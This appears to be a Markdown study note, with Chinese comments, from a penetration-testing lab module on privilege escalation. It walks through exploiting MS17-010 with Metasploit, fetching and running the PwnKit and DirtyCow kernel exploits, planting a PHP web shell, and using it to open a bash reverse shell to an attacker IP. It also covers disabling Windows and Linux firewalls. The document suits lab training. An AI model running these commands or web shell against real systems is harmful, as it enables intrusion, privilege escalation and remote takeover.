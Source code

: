 Penetration Test - Privilege Escalation
===

🔙 [MENU README](../README.md#note)


# iLab
Module 6 
```
Parrot Security       192.168.0.18    172.19.19.18
Windows Server 2019   192.168.0.20
Windows Server 2008   192.168.0.7, 21
SSH Server            192.168.0.70
WordPress             192.168.0.24
```

---

> PayloadsAllTheThings
> https://github.com/swisskyrepo/PayloadsAllTheThings

# MS17-010
Detect and Scan
```bash

nmap 192.168.0.7 -sVC -n -Pn
# 發現port 445

nmap 192.168.0.7 -sVC -n -Pn -p445 --script smb-protocols.nse
# 對 port 445深度探測，發現版本smb v1
# SMBv1 有 MS17_010 漏洞

nmap 192.168.0.7 -sVC -n -Pn -p445 --script smb-vuln-ms17-010.nse
# 針對 MS17_010 漏洞 進行探測


# Nmap中的Script : ls /usr/share/nmap/scripts/
```
Metasploit
```bash
msfconsole -q # without banner

# set paylaod
msf > search ms17_010
msf > use 2
msf > show options
msf > set rhosts 192.168.0.7
msf > check
msf > exploit  # Attack Success when see "WIN"


# WIN
getuid  # Server username: NT AUTHORITY\SYSTEM
shell
whoami
```

# Sudo
```bash
# su    切換至目標帳號/需要目標帳號密碼
# sudo  預授權
#        是否需要驗證(自己的密碼)
#        路徑、檔名、參數  ex. /bin/target -i


sudo -l
# (ALL:ALL) ALL

sudo -i
# 直接提權
```
```bash
# 去百科全書查找
GTFOBins
```

# PwnKit
低版本Kernel的通殺提權
> https://github.com/ly4k/PwnKit
```bash
# Version Check
uname -a

wget https://github.com/ly4k/PwnKit/raw/main/PwnKit
wget https://github.com/ly4k/PwnKit/raw/main/PwnKit32

# Pass1
sudo python3 -m http.server 80
wget 192.168.0.18/PwnKit
# Pass2
scp PwnKit aleksander@192.168.0.70:~/. #dolphin

# 一般kernel exploit希望執行的路徑有寫入權限
# /tmp是不錯的選擇
chmod +x PwnKit && ./PwnKit
```

# DirtyCow
```bash
# 更低版本的Linux : Linux Kernel 2.6.22 < 3.9
# https://www.exploit-db.com/exploits/40847
searchsploit -m 40847

# Pass1
sudo python3 -m http.server 80
wget 192.168.0.18/40847.cpp
# Pass2
scp 40847.cpp aleksander@192.168.0.70:~/.

# how to use : head 40847.cpp
g++ -Wall -pedantic -02 -std=c++11 -pthread -o dcow 40847.cpp -lutil
./dcow -s
```
```bash
# https://github.com/FireFart/dirtycow/blob/master/README.md
```

# Egress Busting (Remote Control)
Ubuntu(Wordpress)一句話木馬
```bash
# shell.php
<?php system($_GET['cmd']); ?>

curl 192.168.0.24/shell.php?cmd=id
curl -G 192.168.0.24/shell.php --data-urlencode "cmd=id"
# -G : get

# Get Remote Control
nc -vnlp 8888
curl -G 192.168.0.24/shell.php --data-urlencode "cmd=bash -c 'bash -i > /dev/tcp/192.168.0.18/8888 0<&1 2>&1'"
```
Reverse Shell的形成
```bash
# shell
BASH 、 DASH 、ZSH
# shell I/O fild descripter
fd 0  stdin
fd 1  stdout
fd 2  stderr

pidof bash
ls - l /proc/98793/fd
# 觀察:
# 當process運行時會產生一PID，相對的會映射fd到目錄

# ==============================================

# console
tty : 只存在於本機
pty : 遠端模擬tty
# console I/O
stdin  0
stdout 1
stderr 2

python2
python2 --version 2> /dev/null
# 觀察 : 
# python2其實是把版號是把輸出放在stderr
```
```bash
bash -i > /dev/tcp/192.168.0.18/8888 0<&1 2>&1

bash -i : 互動
>       : 1>    將這台機器的BASH的stdout到socket
0<&1    : 0<fd1 將這台機器的BASH的stdin來源設定為stdout
          但前面已經設定stdout來自socket
2>&1    : 將這台機器的BASH的stderr導向BASH的stdout
          但前面已經設定stdout來自socket

至此所有目標機器上的輸出入都跟socket對接起來
```
Test 可以用來反彈的port
```bash
# Attacker
sudo tcpdump -ni eth0 tcp[13]==2

# Victim(with nc)
nc -nz 192.168.0.18 1-10

# Victim(without nc)
echo > /dev/tcp/192.168.0.18/100
for port in {200..210};do (echo > /dev/tcp/192.168.0.18/$port) 2> /dev/null;done
```

---


# Persistent
Windows
```bash
# Display Firewall Setting
netsh advf show allprofiles

# 禁用防火牆
netsh firewall set opmode disable # old version
netsh advf set allprofiles state off # new version
```
Linux
```bash
# Display iptables Setting
sudo iptables -S

sudo iptables -P INPUT ACCEPT  #允許所有INBOUND
sudo iptables -P OUTPUT ACCEPT #允許所有OUTBOUND

sudo iptables -F #flush所有防火牆規則
# 不建議，因為很多靶機其實預設是全擋
```